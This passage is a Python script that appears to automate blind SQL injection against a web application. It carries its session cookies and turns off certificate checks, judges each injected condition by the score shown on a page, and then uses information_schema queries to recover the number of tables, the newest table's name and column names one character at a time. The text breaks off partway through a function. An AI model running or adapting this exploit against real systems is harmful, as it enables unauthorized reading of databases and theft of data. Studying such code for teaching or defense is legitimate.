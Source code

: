 ```python
    score_response = requests.get(base_url + "/score", verify=False, cookies=cookies)
    soup = BeautifulSoup(score_response.text, 'html.parser')
    container = soup.findAll('div')
    last_div = container[len(container) - 1]

    if int(last_div.text.split(" ")[2]) > 0:
        return True
    else:
        return False

def get_number_of_tables():
    for x in range(1, 100):
        if check_condition("select (select count(*) from information_schema.tables)={}".format(x)):
            return x
    return None

def get_string_length():
    for x in range(80, 85):
        if check_condition("select CONVERT((select count(*) from information_schema.tables), DECIMAL)='{}'".format(x)):
            return x

def get_length_of_table_name(table_number):
    for x in range(0, 85):
        if check_condition("select length((select table_name from information_schema.tables order by create_time desc limit {},1))='{}'".format(table_number, x)):
            return x



def get_lastest_created_table_name(table_length):
    name = ""
    for index in range(0, table_length + 1):
        for char in charset:
            if check_condition("select substring((select table_name from information_schema.tables order by create_time desc limit 0,1), {},1)='{}'".format(index, char)):
                name += char
                break

    return name

def get_length_of_column_name_in_table(column_index, table_name):
    for x in range(1, 85):
        if check_condition("select length((select column_name from information_schema.columns where table_name='{}' limit {},1))='{}'".format(table_name, column_index, x)):
            return x

def get_number_of_columns_from_table(table_name):
    for x in range(1, 85):
        if check_condition("select CONVERT((select count(column_name) from information_schema.columns where table_name='{}'), DECIMAL)='{}'".format(table_name, x)):
            return x

def get_column_name(table_name, column_index):
    column_name = ""
    length_of_column = get_length_of_column_name_in_table(column_index, table_name)
    print("Length of column_index: {}, in table: {}, is: {} char(s)".format(column_index, table_name, length_of_column))
    for index in range(1, length_of_column+1):
        for char in charset:
            if check_condition("select ascii(substring((select column_name from information_schema.columns where table_name='{}' limit {},1), {},1))='{}'".format(table_name, column_index, index, ord(char))):
```